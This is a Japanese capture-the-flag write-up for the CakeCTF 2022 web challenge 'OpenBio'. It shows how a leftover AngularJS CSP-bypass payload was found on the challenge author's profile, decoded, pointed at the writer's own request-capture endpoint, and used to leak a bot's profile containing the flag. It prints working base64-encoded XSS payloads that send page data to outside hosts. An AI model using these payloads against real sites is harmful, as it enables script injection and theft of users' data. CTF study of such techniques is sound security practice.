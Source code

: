 # OpenBio:web:135pts
CSP + httponly = [invulnerable](http://web1.2022.cakectf.com:8003/)  

[openbio_357d4ebeb546dfeef981399a5ff12076.tar.gz](openbio_357d4ebeb546dfeef981399a5ff12076.tar.gz)  

# Solution
リンクとソースが渡される。  
アクセスするとユーザ登録ページがあり、ログインするとテキストをプロフィールに設定できるようだ。  
satoki - OpenBio  
![site1.png](site/site1.png)  
ユーザ名を`satoki`にすると、プロフィールのリンクは`http://web1.2022.cakectf.com:8003/profile/satoki`となる。  
問題名の通りCSPなどが入っており、任意のスクリプトは実行できない。  
ただしCSPに甘い箇所があるのでバイパス可能であり、その後に右端に見えるreCAPTCHAなどを使うと予想していた。  
ここで、プロフィールをスパムとして報告するとクローラーがたどることから、各ユーザが自由に他者のプロフィールを閲覧できることに気づく。  
絶対に削除されているだろうが、ためしに作問者の`ptr-yudai`さんのプロフィールページを見る。  
![site2.png](site/site2.png)  
プロフィールのテキスト部分を見ると以下のようであった。  
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>ptr-yudai - OpenBio</title>
~~~
                <p class="uk-text-large"><script src="https://cdn.jsdelivr.net/npm/angular@1.8.3/angular.min.js"></script>
<div ng-app ng-csp>{{$eval.constructor('eval(atob("CiQoZG9jdW1lbnQpLnJlYWR5KGZ1bmN0aW9uKCkgewogICQuZ2V0KCcvJywgKGRhdGEpID0+IHsKICAgIGxldCByeCA9IC88dGV4dGFyZWEgY2xhc3MuKz4oLiopPFwvdGV4dGFyZWE+L2c7CiAgICBsZXQgYXJyID0gcnguZXhlYyhkYXRhKTsKICAgIGxldCBiaW8gPSBhcnJbMV07CiAgICBpZiAoYmlvLmluZGV4T2YoImZsYWciKSAhPT0gLTEpIHsKICAgICAgbG9jYXRpb24uaHJlZiA9ICJodHRwOi8vcG9ucG9ubWFydS50azoxODAwMi8/eD0iICsgYnRvYShiaW8pOwogICAgfSBlbHNlIHsKICAgICAgYWxlcnQoIlJlcG9ydCBtZSIpOwogICAgfQogIH0pOwp9KTsK"))')()}}</div>
zunda</p>
~~~
```
明らかにテスト時の解答が残っており、angularのCSPバイパスが見える。  
base64されたコードがあるので、デコードすると以下のようになった。  
```javascript
$(document).ready(function() {
  $.get('/', (data) => {
    let rx = /<textarea class.+>(.*)<\/textarea>/g;
    let arr = rx.exec(data);
    let bio = arr[1];
    if (bio.indexOf("flag") !== -1) {
      location.href = "http://ponponmaru.tk:18002/?x=" + btoa(bio);
    } else {
      alert("Report me");
    }
  });
});
```
`http://ponponmaru.tk:18002/`にbioを送信している。  
ここを自身のサーバに変え、base64で再びエンコードしプロフィールに設定する。  
投稿するものは以下になる(サーバは[RequestBin.com](https://requestbin.com/)を用いた)。  
```html
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.3/angular.min.js"></script>
<div ng-app ng-csp>{{$eval.constructor('eval(atob("CiQoZG9jdW1lbnQpLnJlYWR5KGZ1bmN0aW9uKCkgewogICQuZ2V0KCcvJywgKGRhdGEpID0+IHsKICAgIGxldCByeCA9IC88dGV4dGFyZWEgY2xhc3MuKz4oLiopPFwvdGV4dGFyZWE+L2c7CiAgICBsZXQgYXJyID0gcnguZXhlYyhkYXRhKTsKICAgIGxldCBiaW8gPSBhcnJbMV07CiAgICBpZiAoYmlvLmluZGV4T2YoImZsYWciKSAhPT0gLTEpIHsKICAgICAgbG9jYXRpb24uaHJlZiA9ICJodHRwczovL3h4eHh4eHh4eHh4eHgueC5waXBlZHJlYW0ubmV0Lz94PSIgKyBidG9hKGJpbyk7CiAgICB9IGVsc2UgewogICAgICBhbGVydCgiUmVwb3J0IG1lIik7CiAgICB9CiAgfSk7Cn0pOwo="))')()}}</div>
satoki
```
プロフィールを報告すると以下のリクエストが自身のサーバに届いた。  
```
GET
/?x=WW91IGhhY2tlZCBtZSEgVGhlIGZsYWcgaXMgQ2FrZUNURntodHRwb25seT10cnVlX2QwM3NfbjB0X3ByMHQzY3RfVV8xbl9tNG55X2M0czNzIX0=
```
デコードすると以下のようになった。  
```
You hacked me! The flag is CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}
```
flagが得られた。  
この新たな攻撃手法は、`ptr-yudai`さんを介したスクリプト実行なので**Cross-Yudai Scripting**と命名することとする。  

## CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}